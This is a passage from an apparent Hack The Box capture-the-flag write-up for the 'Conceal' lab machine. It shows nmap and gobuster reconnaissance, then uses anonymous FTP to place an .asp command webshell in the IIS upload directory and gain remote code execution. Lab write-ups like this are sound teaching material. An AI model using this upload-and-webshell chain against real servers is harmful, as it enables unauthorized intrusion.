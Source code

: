 ### 2nd portscan

After we're connected, we can run a portscan again and find additional ports.

```
# nmap -sT -F 10.10.10.116
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-06 22:36 EST
Nmap scan report for conceal.htb (10.10.10.116)
Host is up (0.032s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```


### Gaining RCE through the IIS webserver

The IIS server has a default page configured.

![](/assets/images/htb-writeup-conceal/iis_generic.png)

Let's use `gobuster` to find interesting stuff on the server:

```
# gobuster -q -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.116
/upload (Status: 301)
```

Ok, so there's an upload page and it seems that we can upload files to the IIS root directory with the FTP anonymous account:

```
# echo "This is a test" > test.txt
# curl -T test.txt ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    15    0     0  100    15      0     53 --:--:-- --:--:-- --:--:--    53
# curl http://10.10.10.116/upload/test.txt
This is a test
```

Next, let's upload an .asp webshell so we can run commands on the server. I used the following webshell: [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp)

```
# curl -t curl -T snow.asp ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1356    0     0  100  1356      0   4237 --:--:-- --:--:-- --:--:--  4237
```

We now have RCE and we can grab the user flag from the `Destitute` user directory.
